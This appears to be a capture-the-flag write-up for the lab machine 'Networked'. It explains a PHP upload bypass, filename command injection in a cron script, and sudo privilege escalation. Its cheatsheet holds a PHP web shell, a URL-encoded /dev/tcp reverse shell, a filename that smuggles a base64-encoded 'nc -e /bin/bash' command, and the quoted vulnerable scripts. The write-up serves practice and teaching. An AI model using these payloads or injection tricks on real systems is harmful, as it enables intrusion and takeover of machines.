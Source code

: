 # Networked \[Easy]

## Report

A file upload vulnerabilty allows us to execute PHP code and obtain a reverse shell. A cronjob executing a script that is vulnerable to path injection and obtain another reverse shell as user 'guly'.

guly can run a network config script as sudo. Any input after a whitespace is executed. A google search would show this. Spwan another shell and become root

## Cheatsheet

```
#Understand file checking process using php -a (Interactive mode)
#Apache config vuln a file with .php extension anywhere will execute the PHP code
vim black.php.jpeg
<?php echo "START<br/><br/>\n\n\n"; system($_GET["cmd"]); echo "\n\n\n<br/><br/>END"; ?>
Navigate to uploads/[file]
?cmd=sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.3%2F9001%200%3E%261

#Revshell from previous shell to become guly
touch 'c; echo bmMgMTAuMTAuMTQuMyA5MDAyIC1lIC9iaW4vYmFzaA== | base64 -d | sh; d'
(nc 10.10.14.3 9003 -e /bin/bash)
Shell kept dying using sh and encoding via base64 was the only way to get stable shell

#guly
sudo /usr/local/sbin/changename.sh
[random input] /bin/bash
#Vulnerability in editing network scripts leads to privesc
```

{% code title="check_attack.php (This was run as a cronjob)" %}
```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

```
{% endcode %}

{% code title="changename.sh" %}
```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0

```
{% endcode %}

## Loot

### Creds

None lmao

### Proof

#### Web directory Structure

* backup
* uploads
* upload.php
* gallery.php

backup contains source code, upload.php allows file upload and gallery.php allows to access uploaded files

The check\_ip function in check\_attack.php is from lib.php which checks if the file name is from a valid IP. The name of file uploaded is modified at the time itself based on sender IP.

```
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &"
```

This line was vulnerable to path injection, and $path was already defined but not $value

{% embed url="https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f" %}

### Pitch Notes

For PrivEsc, we couldn't

* add to sudoers >>
* revshell .
* chown root.txt :&#x20;
* cat root.txt .

The regex prevented us from using the following characters

But you can simply span a shell using `/bin/bash`

\
